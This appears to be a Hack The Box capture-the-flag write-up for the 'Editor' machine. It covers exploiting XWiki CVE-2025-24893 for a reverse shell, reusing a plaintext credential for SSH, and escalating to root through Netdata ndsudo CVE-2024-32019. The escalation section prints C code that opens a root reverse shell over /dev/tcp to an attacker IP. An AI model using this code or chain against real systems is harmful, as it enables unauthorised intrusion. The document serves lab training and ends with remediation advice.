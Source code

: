 ```yaml
---
title: "HtB Machine: Editor"
description: Write-up for the HtB Editor machine.
sidebar:
  label: Editor
---
```



## Enumeration

Starting with an nmap scan, let’s see what ports are open and what is running on our target.

<Image src={nmapEditor} priority alt="Nmap scan for Editor" />

Nmap gives us a few useful pieces of information. 
- Our target host seems to be serving a website called *http:/<i></i>/editor.htb*. 
- They also appear to be using [XWiki](https://www.xwiki.org/xwiki/bin/view/Main/WebHome), an open source enterprise wiki platform.
- Our target host also appears to be open for SSH communication, which could be useful in the future.

Let’s add editor.htb to our **/etc/hosts** file, and then navigate to the main page for *http:/<i></i>/editor.htb*.

![Editor main page](@assets/security/editor/2-editor-main.png)

Clicking around through our target site doesn’t reveal all that much, and the documentation link doesn’t resolve.

Going back to our nmap scan, we know that our scan also revealed several XWiki pages. Navigating to *http:/<i></i>/editor.htb/xwiki/bin/view/Main* is more interesting.

![XWiki Main Page](@assets/security/editor/3-XWiki-main.png)

On the XWiki pages for our target, we can see they include the XWiki version at the bottom of the page: XWiki for Debian 15.10.8. 

## Vulnerability

Our target is serving XWiki 15.10.8, if we browse onto [XWiki’s downloads page](https://www.xwiki.org/xwiki/bin/view/Download/), we can see that the latest version is 17.8.0 (as of the time of writing this report). Thus, it could be helpful to search for any vulnerabilities for this older version.

Searching for our target’s version comes up with CVE-2025-24893. OffSec has a [blog post](https://www.offsec.com/blog/cve-2025-24893/) about this specific vulnerability, and states that it affects all XWiki versions prior to 15.10.11, which includes our target!
Based on the explanation, it looks like we can achieve remote code execution due to unsanitized input via a GET request to a specific macro and its interaction with Groovy.

Various POCs can be found for this specific vulnerability, for example:
https://github.com/dollarboysushil/CVE-2025-24893-XWiki-Unauthenticated-RCE-Exploit-POC

Going through the POC's code, there’s a decent amount of flavor that makes the POC easy to use, but the core of it revolves around a reverse shell payload, which is inserted with the Groovy formatting.

To catch the reverse shell, we prepare a listener with netcat. Then, we launch the POC exploit, and catch our reverse shell:

![Exploit POC for CVE-2025-24893](@assets/security/editor/4-exploit-1.png)

Our reverse shell:
![Netcat listener](@assets/security/editor/5-nc-rs.png)

## Enumeration Pt. 2

We can now use our reverse shell to enumerate the files on our target. 
First, we can upgrade our shell.

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Next, let’s browse around the folder structure.
It looks like the files for our target XWiki site are located in **/usr/lib/xwiki**. While looking through the .xml files for potential information, it looks like there is a config file called **hibernate.cfg.xml**.

![Hibernate config file](@assets/security/editor/6-hibernate.png)

Grepping this file for ‘password’ reveals a credential.

![Grepping for password](@assets/security/editor/7-grep-pw.png)

Another interesting result is found from browsing the **/home** folder. Here, we notice one user listed, **/oliver**. Currently, we cannot access this folder, but this gives us a username to try.

![Finding Oliver username](@assets/security/editor/8-oliver.png)

Since we have both a username and password, we can try SSHing to our target with our new credentials.

![SSHing with credentials](@assets/security/editor/9-ssh.png)

As **oliver**, we can now read the flag for **user.txt** in our home folder.

## Privilege Escalation

In searching for ways to escalate privilege, one of the potential paths we can try is to look for a file that has the SUID bit set.

From this search, we can notice that our target contains various tools from Netdata. We can search online for Netdata vulnerabilities, where we find one for the **ndsudo** plugin, with the vulnerability [CVE-2024-32019](https://nvd.nist.gov/vuln/detail/CVE-2024-32019).
It looks like Netdata’s ndsudo tool allows us to run arbitrary programs with root permissions. This tool searches for commands via the **$PATH** variable, thus letting us control where it looks for commands.

Searching for this specific vulnerability, we again find a POC demonstrating the vulnerability:
https://github.com/AliElKhatteb/CVE-2024-32019-POC

Let’s take a look at the code:

```c
#include <unistd.h>
#include <stddef.h>

int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/10.10.14.160/9001 0>&1", NULL);
    return 0;
}
```

It looks like a reverse shell for root written in C, which we can compile and export to our target machine.

Based on the vulnerability description from netdata’s [Github](https://github.com/netdata/netdata/security/advisories/GHSA-pmhq-4cxq-wj93), we have make sure to do a few things.
1. We make sure our compiled exploit is called **nvme**, as this is described as one of the commands **ndsudo** recognizes.
2. When we call **ndsudo**, we make sure to specify our **$PATH** parameter as where we transferred our **nvme** exploit.

We’ll take our C exploit code and compile this locally:

![Specifying $PATH](@assets/security/editor/10-compile.png)

Then, let’s transfer it to our target in the /tmp folder:

![Specifying $PATH](@assets/security/editor/11-scp.png)

Let’s run our exploit, and catch the root reverse shell. We’ll make our exploit executable with chmod. We call ndsudo, and this is where we specify our $PATH parameter to our exploit.

![Specifying $PATH](@assets/security/editor/12-path.png)

In our other window we’ve set up the listener and we get our reverse shell:

![Root access](@assets/security/editor/x-root.png)

And we have root access! We can now complete our system flag capture.

## Remediation

<Aside type="note">
It’s understood that Hack The Box machines are designed to be exploitable, and also that a capture-the-flag exercise is not indicative of the goals of real-life red team activities. Nonetheless, this section is included in this report for practice and learning.
</Aside>

### Summary:
- Scope: 10.10.11.80 http:/<i></i>/editor.htb
- CTF Date: 10/5/2025
- Scope was a pure penetration CTF exercise, for both user and root privileges.
- The test was run as a black-box from a VPN belonging to the target. All testing was run from 10.10.14.160.

The HacktheBox Editor machine was attacked on October 5th, 2025. The test was primarily run between the hours of 9AM and 12PM, and the report compiled the following day. A VPN connection was provided, but no users or login information.

The primary goal of the test was to determine if user accounts could be breached and eventually, root privileges could be accessed. A time limitation of one day was given, which was more than enough to be thorough. There were no other limitations or extenuating circumstances in this test.

The application was well-organized, and we were unable to brute-force user accounts. However, we were able to find un-patched software which had vulnerabilities that allowed us to access both user and root accounts. Furthermore, we found an instance of credentials being stored in plain-text, which undermined the hardening efforts of the application.

### Technical Details

| Reference # | Risk | Issue Description | Recommendations |
| --- | --- | --- | --- |
| 1 | High | XWiki platform version contained a search macro that would process unsanitized data. This allows for injection into GET requests of the application. | XWiki users are recommended to immediately update to 15.10.11. |
| 2 | High | Account passwords were found in a configuration file in plaintext. | All sensitive data should be stored with a strong hashing algorithm. |
| 3 | High | Netdata plugins allowed for arbitrary root code execution. | Netdata plugins are recommended to be kept up to date. |
